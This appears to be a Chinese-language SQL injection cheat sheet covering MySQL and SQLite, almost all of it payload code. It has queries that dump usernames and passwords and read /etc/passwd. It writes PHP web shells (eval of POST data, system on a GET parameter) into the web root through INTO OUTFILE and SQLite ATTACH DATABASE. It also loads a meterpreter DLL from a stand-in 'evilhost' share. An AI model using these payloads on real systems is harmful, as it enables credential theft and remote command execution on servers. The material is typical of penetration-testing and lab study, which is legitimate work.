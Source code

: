 获取某个表的所有columns
```sql
select group_concat(column_name) from information_schema.columns where 
table_schema = database() and table_name = 'users'
```

获取某个表中的数据
```sql
select group_concat(id,':',username,':',password) from users
```

读写文件
```sql
show global variables like '%secure_file_priv%';
-- secure_file_priv NULL 表示不可用， 空 表示可用
-- 在 MySQL 5.5.3 之前 secure_file_priv 默认是空，这个情况下可以向任意绝对路径写文件；近一步限制可以设置更具体的路径，比如/usr/
-- 在 MySQL 5.5.3 之后 secure_file_priv 默认是 NULL，这个情况下不可以写文件

select load_file('/etc/passwd');

-- 需要写入文件不存在
select  '<?php eval($_POST[\'hack\'])?>',2 into outfile '/var/www/dvwa/shell.php';
```

### SQLite

数据库结构
```sql
SELECT sql FROM sqlite_schema
-- if sqlite_version > 3.33.0
SELECT sql FROM sqlite_master
```

表名
```sql
SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'
```

列名
```sql
SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='table_name'
```

命令执行
```sql
ATTACH DATABASE '/var/www/lol.php' AS lol;
CREATE TABLE lol.pwn (dataz text);
INSERT INTO lol.pwn (dataz) VALUES ("<?php system($_GET['cmd']); ?>");

UNION SELECT 1,load_extension('\\evilhost\evilshare\meterpreter.dll','DllMain');
```

详细可以[参看](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md)

## 绕过

## SQLMap